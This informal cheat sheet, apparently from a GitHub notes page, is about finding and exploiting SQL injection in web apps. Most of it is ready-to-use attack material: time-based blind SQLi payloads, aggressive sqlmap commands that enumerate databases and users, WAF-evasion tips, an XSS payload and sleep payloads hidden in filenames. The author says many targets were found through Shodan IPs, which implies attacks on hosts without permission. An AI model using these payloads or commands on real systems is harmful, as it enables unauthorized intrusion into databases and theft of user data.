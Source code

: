 One of the best ways to confirm a SQL injection is by making it operate a logical operation and having the expected results.

For example: if the GET parameter ?username=Peter returns the same content as ?username=Peter' or '1'='1 then, you found a SQL injection.


```
orwa' AND (SELECT 6377 FROM (SELECT(SLEEP(5)))hLTl)--
(SlEeP%09(14-(5-2)))
')) or sleep(5)=' 
;waitfor delay '0:0:5'-- 
);waitfor delay '0:0:5'-- 
';waitfor delay '0:0:5'-- 
";waitfor delay '0:0:5'-- 
');waitfor delay '0:0:5'-- 
");waitfor delay '0:0:5'-- 
));waitfor delay '0:0:5'-- 
```


sqlmap -r request.txt -p parameter-name --force-ssl --level 5 --risk 3  --dbs --hostname --current-user

90% from my finds in SQL injection as
 [POST Request] 
1 Login page in username parameter 
2 Forget password page username parameter
3 Singup Page firstname and last name parameter

' WAITFOR DELAY '0:0:5'-- 
';WAITFOR DELAY '0:0:5'-- 
===>Comment

If sometimes you cant exploits  
change request form POST to GET 
if the same with the url injection try change request form GET to POST



most modern web apps use WAF & user input validation before execute it.
yeh 
you can try with 
--random-agent 
but i dont remember that i use tempers 

or maby because lot of these sql i found it from shodan ips




all the time i try Sql  in user parameter 
1)
i used sleep payload
`';WAITFOR DELAY '0:0:5'-- `
and the server get DELAY for 5 s
2)
save Post request in txt
```
sqlmap -r txt -p user --force-ssl --level 5 --risk 3
sqlmap -r request.txt -p email/username --force-ssl -level 5 --risk 3 --dbms="MySQL" --test-filter="MySQL >= 5.0.12 AND time-based blind (query SLEEP)"
```
```
"><img src=x onerror=alert(document.domain)>
--sleep(15).png
--sleep(6*3).png
--sleep(25).png
--sleep(5*7).png
```
